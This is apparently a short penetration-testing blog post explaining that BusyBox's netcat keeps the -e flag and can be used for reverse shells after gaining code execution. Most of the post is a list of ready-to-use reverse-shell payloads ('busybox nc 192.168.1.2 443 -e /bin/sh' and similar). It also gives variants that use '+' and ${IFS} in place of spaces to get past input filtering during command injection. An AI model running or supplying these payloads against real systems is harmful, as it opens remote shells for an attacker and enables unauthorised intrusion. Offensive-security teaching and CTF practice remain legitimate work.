 ```yaml
---
layout: single
title: BusyBox - An Overlooked Tool For Netcat Reverse Shells
excerpt: "Whether it be in a real engagement or CTF-style box, when a hacker acquires remote code execution on a machine, we want to do is retrieve a reverse shell quickly and efficiently.  One of the methods that I first learned was using `netcat` with the infamous `-e` flag to execute a binary after making a successful connection.  However in most modern Linux systems come with the **OpenBSD** version of `netcat` which lacks the crucial `-e` flag."
date: 2025-03-17
classes: wide
header:
  teaser: /assets/images/kali-logo.png
  teaser_home_page: false
  icon: /assets/images/code.png
categories:
tags:
---
```


# Reviving the NetCat Reverse Shell

Whether it be in a real engagement or CTF-style box, when a hacker acquires remote code execution on a machine, we want to do is retrieve a reverse shell quickly and efficiently.  One of the methods that I first learned was using `netcat` with the infamous `-e` flag to execute a binary after making a successful connection.  However in most modern Linux systems come with the **OpenBSD** version of `netcat` which lacks the crucial `-e` flag.

BusyBox, however, is included on most Linux distributions and is essentially a "Swiss Army knife" of Linux utilities, packing several functions into a single binary including netcat with executable capabilities!

Here are a few busybox reverse shell payloads:

```bash
#sh
busybox nc 192.168.1.2 443 -e sh
busybox nc 192.168.1.2 443 -e /bin/sh
#bash
busybox nc 192.168.1.2 443 -e bash
busybox nc 192.168.1.2 443 -e /bin/bash
#not space
busybox+nc+192.168.1.2+443+-e+sh
busybox${IFS}nc${IFS}192.168.1.2${IFS}443${IFS}-e${IFS}sh
```
